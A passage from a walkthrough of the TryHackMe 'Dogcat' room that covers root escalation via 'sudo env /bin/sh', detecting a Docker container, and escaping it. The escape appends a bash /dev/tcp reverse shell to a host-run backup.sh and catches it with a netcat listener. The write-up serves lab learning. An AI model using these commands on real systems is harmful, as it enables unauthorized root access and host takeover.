

- Then select the Sudo section of the env command, which explains:

If this binary is allowed to run with superuser privileges via sudo, it will not lower its privileges and can be used to access system files or escalate access privileges.



- Then, we'll use this command to enter a shell with root privileges:

```bash
sudo /usr/bin/env /bin/sh
```


- Once this command is successfully executed, we'll have a shell with root privileges, allowing us to access files or commands that require elevated privileges.

32. We'll access the root directory with the command:

```bash
cd /root
```

📥 Use the command:

```bash
ls
```

- To view the files in the directory, we found the file flag3.txt.
- Read the file with the command:

```bash
cat flag3.txt
```



📄 Copy the displayed flag3 value and paste it into the TryHackMe system.

- It's worth noting that flag3 is in a different environment than flags1 and flag2. Both are with the permissions of the www-data user, but flag3 is in the root directory, indicating that we have elevated permissions.

### 🐳 2.15 Check the environment and search for additional clues

33. Verify the current location of the shell

📥 Use the command:

```bash
cd ..
pwd
```



📄 Output:

```bash
/
```

📌 This means we are in the root directory of the system, which is the top-level directory.

34. Check all files, including hidden files:

📥 Use the command:

```bash
ls -la
```



📄 Output:
- .dockerenv file found

🧠 Analysis:
- .dockerenv file This is a hidden file on Linux/Unix systems (begins with a period).
- .dockerenv is typically only found in containers running with Docker.
- Therefore, finding this file means:
🔎 The machine we're hacking may be a Docker container.

📌 This indicates that we may not be on the "main host" of the system and need to find a path out of the container to access the main system (host) or find a flag file that may be outside the container.

### 📦 2.16 Analyzing the system backup files

35. Examine the `/opt` directory for additional clues.

📥 Use the command:

```bash
cd /opt
ls
```

📂 Result: A folder named `backups` was found.
📌 This folder is interesting because its name suggests it's used for backups.

36. Enter the backups folder and examine the files inside.

📥 Use the command:

```bash
cd backups
ls
```

📄 Result: 2 files were found.
- backup.sh
- backup.tar

📌 .sh files are typically shell scripts used to command or run certain processes.

37. Read the contents of the backup.sh file.

📥 Use the command:

```bash
cat backup.sh
```



📄 Result: The code in the file specifies:
- Use the `tar` command to backup the data.
- The data from the container is saved to a directory. /root/container

🧠 Analysis:
- The backup.sh file contains a tar command that compresses data from the path '/root/container' to '/root/container/backup/backup.tar'.
- This indicates that the path is likely mounted from the host (since a normal container should not have a '/root/container').
- Therefore, the system we are running is likely a 🐳 Docker container with a bind mount to the host.
- Next goal: Elevate access from the container to the host using the root privileges in the container to tamper with the host.

🧨 2.17 Exploit via backup.sh to Escape Container

38. 🧠 Situation Analysis:

- We found that the backup.sh file is in a path that we have overwrite permissions from the container.
- This script contains a tar command, which is designed to backup data from a path that may belong to the host ('/root/container').
- If the host has A cron job or process that automatically runs backup.sh (e.g., root on the host).
- We can embed a payload, such as a reverse shell, into backup.sh.
- When this script is run by the host, the payload will run with the host's privileges, allowing the container to actually escape.

40. 🧲 Listen for connections from the reverse shell.

📥 Use the command on the attacker's machine:

```bash
nc -lvnp 8888
```



📌 This command is Netcat, which opens a port and listens for connections from the target.

40. 🧬 Write a reverse shell into backup.sh.

📥 Use the command:

```bash
echo "bash -i >& /dev/tcp/10.9.0.160/8888 0>&1" >> backup.sh
```



📌 Explanation:

- `bash -i`:
- Opens an interactive shell, which accepts user input/output.
- Must be `-i` for the shell to run interactively. (interactive) via TCP connection
- `>& /dev/tcp/10.9.0.160/8888`: Send data from the shell to the IP address `10.9.0.160` via TCP port `8888`
- `0>&1`: Connect stdin to stdout → Use a single socket for data transmission
- `>> backup.sh`: Add this command to the end of the `backup.sh` file without deleting the original contents

📎 Note:
The reverse shell will only work if a service (or administrator) runs the `backup.sh` file, which is typically a cronjob or script on the host.

🟢 If successful, the shell on the host will reconnect. And we'll gain root privileges on the actual host.

### 🏴‍☠️ 2.18 Control the host and find the last flag (flag4.txt)
> We've now successfully remotely controlled the target machine 🎉
> (This is no longer a container, but a real host running externally.)

41. 🔍 Find the flag4.txt file on the system:

📥 Run the command:

```bash
ls
```

📁 Result: Found the flag4.txt file.

42. 📖 Read the contents of the final flag:

📥 Run the command:

```bash
cat flag4.txt
```



📄 Copy the values from the file and paste them into the TryHackMe answer field.

✅ Completed collecting flag4 and completely cleared the Dogcat room.
